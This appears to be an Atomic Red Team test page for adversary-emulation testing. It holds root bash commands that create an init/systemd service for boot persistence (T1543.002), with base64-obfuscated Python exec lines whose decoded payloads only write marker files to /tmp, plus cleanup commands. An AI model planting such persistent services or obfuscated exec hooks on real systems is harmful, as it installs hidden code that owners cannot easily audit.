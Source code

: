 



<br/>
<br/>

## Atomic Test #3 - Create Systemd Service file,  Enable the service , Modify and Reload the service.
This test creates a systemd service unit file and enables it to autostart on boot. Once service is created and enabled, it also modifies this same service file showcasing both Creation and Modification of system process.

**Supported Platforms:** Linux


**auto_generated_guid:** c35ac4a8-19de-43af-b9f8-755da7e89c89






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
cat > /etc/init.d/T1543.002 << EOF
#!/bin/bash
### BEGIN INIT INFO
# Provides : Atomic Test T1543.002
# Required-Start: $all
# Required-Stop : 
# Default-Start: 2 3 4 5
# Default-Stop: 
# Short Description: Atomic Test for Systemd Service Creation
### END INIT INFO
python3 -c "import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBDcmVhdGluZyBTeXN0ZW1kIFNlcnZpY2UgVDE1NDMuMDAyID4gL3RtcC9UMTU0My4wMDIuc3lzdGVtZC5zZXJ2aWNlLmNyZWF0aW9uJykK'))"
EOF

chmod +x /etc/init.d/T1543.002
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then update-rc.d T1543.002 defaults; elif [ $(cat /etc/os-release | grep -i 'ID="centos"') ]; then chkconfig T1543.002 on ; else echo "Please run this test on Ubnutu , kali OR centos" ; fi ;
systemctl enable T1543.002
systemctl start T1543.002

echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgYSBTeXN0ZW1kIFNlcnZpY2UgVDE1NDMuMDAyID4gL3RtcC9UMTU0My4wMDIuc3lzdGVtZC5zZXJ2aWNlLm1vZGlmaWNhdGlvbicpCg=='))\"" | sudo tee -a /etc/init.d/T1543.002
systemctl daemon-reload
systemctl restart T1543.002
```

#### Cleanup Commands:
```bash
systemctl stop T1543.002
systemctl disable T1543.002
rm -rf /etc/init.d/T1543.002
systemctl daemon-reload
```
